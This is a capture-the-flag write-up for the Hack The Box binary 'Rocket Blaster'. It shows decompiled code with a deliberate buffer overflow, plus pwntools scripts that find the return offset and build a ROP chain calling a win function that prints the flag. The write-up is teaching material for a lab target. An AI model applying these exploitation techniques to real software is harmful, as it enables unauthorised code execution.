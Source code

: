 # HTB Challenge: Rocket Blaster

*"Prepare for the ultimate showdown! Load your weapons, gear up for battle, and dive into the epic fray—let the fight commence!"*


![PWNED](./attachments/htb_result.png)

As an easy-level binary exploitation box, "Rocket Blaster" introduces to ret2win, and linux calling conventions. 


## Information Gathering

First, gather informations such as the ELF architecture, protections ant its purpose.

The ELF has the canary and PIE disabled, and the libraries are fully protected.

![elf checksec](./attachments/elf-checksec.png)
![libs checksec](./attachments/checksec_libs.png)


## The program

![program](./attachments/program_1.png)

![program segfault](./attachments/program_segfault.png)

The program asks a input to the user. The user have to "Place the ammos in the right place"...

Let's see what's inside. Note that the program Segfaults on long input

## Reversing the binary

    undefined8 main(void)
    {
        char local[28];
        undefined8 local_20;
        undefined8 local_18;
        undefined8 local_10;

        banner();
        local_28 = 0;
        local_20 = 0;
        local_18 = 0;
        local_10 = 0;
        fflush(stdout);
        printf(
                "\nPrepare for trouble and make it double, or triple..\n\nYou need to place the ammo in the  right place to load the Rocket Blaster XXX!\n\n>> "
                );
        fflush(stdout);
        read(0,&local,102);
        puts("\nPreparing beta testing..");
        return 0;
    }

The program does nothing but asking an input.

The flaw occurs when the user enters an input larger that 28. The additionals characters would erase the stack.


## Finding a way to exploit

Let's fill this buffer with cyclic patterns, in order to determine the return address's offet.

This can be done with pwntools:

    def get_offset():
        p.recvline()
        p.sendline(cyclic(200, n=8))
        p.wait()
        core = p.corefile
        success(f"Offset at {cyclic_find(core.fault_addr, n=8)}")

![rip offset](./attachments/corefile.png)

Let's do a ret2main to confirm the feasibility.

    def ret2main():
        p.recvline()
        p.sendline(40 * b"A" + p64(rops.ret[0]) + p64(elf.symbols['main']))
        p.interactive()

![rip offset](./attachments/ret2main.png)

Now, where do we go?

## Ret2Win

 

After analyzing the decompiled functions, I found the function "fill_ammo". It opens the flags, and performs a serie of tests on the function's args:

    void fill_ammo(long param_1,long param_2,long param_3)
    {
    ssize_t sVar1;
    char c;
    int flag_fd;
    
    flag_fd = open("./flag.txt",0);
    if (flag_fd < 0) {
        perror("\nError opening flag.txt, please contact an Administrator.\n");
                        /* WARNING: Subroutine does not return */
        exit(1);
    }
    if (param_1 != 0xdeadbeef) {
        printf("%s[x] [-] [-]\n\n%sPlacement 1: %sInvalid!\n\nAborting..\n",&DAT_00402010,&DAT_00402008,
            &DAT_00402010);
                        /* WARNING: Subroutine does not return */
        exit(1);
    }
    if (param_2 != 0xdeadbabe) {
        printf(&DAT_004020c0,&DAT_004020b6,&DAT_00402010,&DAT_00402008,&DAT_00402010);
                        /* WARNING: Subroutine does not return */
        exit(2);
    }
    if (param_3 != 0xdead1337) {
        printf(&DAT_00402100,&DAT_004020b6,&DAT_00402010,&DAT_00402008,&DAT_00402010);
                        /* WARNING: Subroutine does not return */
        exit(3);
    }
    printf(&%s,&DAT_004020b6);
    fflush(stdin);
    fflush(stdout);
    while( true ) {
        sVar1 = read(flag_fd,&c,1);
        if (sVar1 < 1) break;
        fputc((int)c,stdout);
    }
    close(flag_fd);
    fflush(stdin);
    fflush(stdout);
    return;
    }

To summarize:
- param_1 (rdi) must be equal to 0xdeadbeef
- param_2 (rsi) must be equal to 0xdeadbabe
- param_2 (rdx) must be equal to 0xdead1337

If the conditions are satisfied, the program simply prints the flag.  

By checking the [linux calling convention](https://www.ired.team/miscellaneous-reversing-forensics/windows-kernel-internals/linux-x64-calling-convention-stack-frame), we know that we will need some gadgets.

### Finding pop gadgets

It was easy to find the required gadgets:

![rip offset](./attachments/ropgadget.png)

Pwntools also offers such functionnality, with the ROP() object.

Let's build our ropchain:


    def exploit():
        p.recvuntil(">>")
        ropchain = [
            offset * b"A",
            p64(rops.ret[0]),
            p64(rops.rdi[0]),
            p64(0xdeadbeef),
            p64(rops.rsi[0]),
            p64(0xdeadbabe),
            p64(rops.rdx[0]),
            p64(0xdead1337),     
            p64(elf.symbols['fill_ammo']),      
        ]
        p.send(flat(ropchain))
        p.interactive()

After some trials/errors, here is our flag.

![flag](./attachments/flag.png)

## Fix

To fix this flaw, the developer have to set the third argument of read to a proper size: sizeof(buffer).